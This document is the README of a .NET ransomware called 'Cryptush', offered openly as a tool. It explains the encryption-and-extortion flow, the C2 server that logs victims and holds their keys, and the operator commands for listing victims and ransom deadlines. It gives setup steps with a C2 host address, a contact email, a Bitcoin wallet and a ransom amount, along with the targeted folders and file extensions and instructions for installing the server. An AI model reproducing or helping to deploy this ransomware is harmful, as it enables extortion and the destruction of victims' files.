 # Cryptush
An open-source .NET Ransomware

<p align="center">
    <img src="https://i.imgur.com/zuUXyET.png">

</p>

## The Flow

    1- A symmetric AES (256bit) key is generated.

    2- Documents are collected from predefeind directories including its sub-directories.

    3- The key is encrypted with a static public RSA key and sent to the C2 server.

    4- The C2 server returns an GUID for identification and logs the details to CryptushServer.log

    5- The encryption key is then deleted from memory on the victim host and a window is presented including a decryption option and a 24 hours timer.
    

## Notes

* The ransomeware will not run in there's no communication to the C2 server. 
A reconnect attempt will be made every 30 seconds.

## Help

* You can view details about the encrypted victims using the "list" command (hostname, username, launch time, time left for payment, etc.).

* You can view details about the encrypted files on each victim using the "files" command.

### Dependencies

* Client - .NET Framework 4.8
* Server - .NET core 5.0


## Getting Started

* Edit the app.config file inside the Cryptush folder with your details:

    <add key="ServerIP" value="ec2-3-68-73-27.eu-central-1.compute.amazonaws.com" />
    <add key="ServerPort" value="443" />
    <add key="Email" value="yuval555@gmail.com" />
    <add key="BtcWalletAddress" value="bc1qxy2kgdygjrsqtzq2n0yrf2493p83kkfjhx0wlh" />
    <add key="BtcAmount" value="0.035" />
    
* Select the folders to be encrypted in Cryptush.cs, the default is:

```
        public static string[] paths = {
            $"{desktopDir}\\test",
        };
```

* The default extensions are:

```
            var extensions = new List<string> { ".xls", ".doc", ".ppt", ".pdf", ".txt" };

```

You can change them in Cryptush/lib/Collector.cs


## Installing the server on Linux

```
wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update
sudo apt install -y dotnet-runtime-5.0
sudo dotnet CryptushServer.dll --ip=* --port=443
```
